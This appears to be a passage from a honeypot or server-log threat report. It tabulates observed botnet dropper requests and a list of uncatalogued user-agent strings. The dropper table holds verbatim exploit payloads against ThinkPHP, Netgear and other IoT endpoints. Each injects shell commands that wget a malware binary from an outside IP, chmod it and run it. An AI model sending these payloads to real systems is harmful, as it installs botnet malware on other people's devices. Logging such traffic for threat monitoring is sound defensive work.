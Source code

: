 | RO               |                    |
| RO               |                    |
| RO               |                    |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                       |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 204.76.203.18   | GET /wget.sh HTTP/1.1                                                                                                                                                                                                                         |
| 179.43.175.250  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F42.112.26.36%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                     |
| 40.78.67.175    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://185.225.74.159/bins/phantom.x86 -O /tmp/.phantom; chmod 777 /tmp/.phantom; /tmp/.phantom thinkphp' HTTP/1.1    |
| 39.78.228.167   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://39.78.228.167:38045/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                  |
| 211.143.108.124 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                 |
| 200.81.185.179  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://157.230.218.54/bins/nine.x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 117.206.99.45   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                         |
| 118.254.150.10  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                 |
| 103.206.100.4   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                         |
| 168.61.64.120   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://185.224.129.235/Simps/x86_64 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 40.83.247.135   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://85.31.44.190/duck3k/home.x86 -O /tmp/.Fdp; chmod 777 /tmp/.Fdp; /tmp/.Fdp ThinkPHP.x86.Selfrep' HTTP/1.1       |

## user_agent

The list of User Agent presented here are those that have not yet been yet integrated into the [user agent database database](https://blog.shoggoth.industries/database/request_database/).

|     |   number_of_occurence | user_agent                                                                                                                                                                                                                                                                                 |
|----:|----------------------:|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|   0 |                    63 | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0                                                                                                                                                              |
|   1 |                    55 | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36 Edg/132.0.0.0                                                                                                                                                              |
|   2 |                    40 | Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.6 Safari/605.1.15                                                                                                                                                                      |
|   3 |                    38 | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 Edg/130.0.0.0                                                                                                                                                              |
|   4 |                    28 | Mozilla/5.0 (iPhone; CPU iPhone OS 17_7 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.7 Mobile/15E148 Safari/604.1                                                                                                                                                    |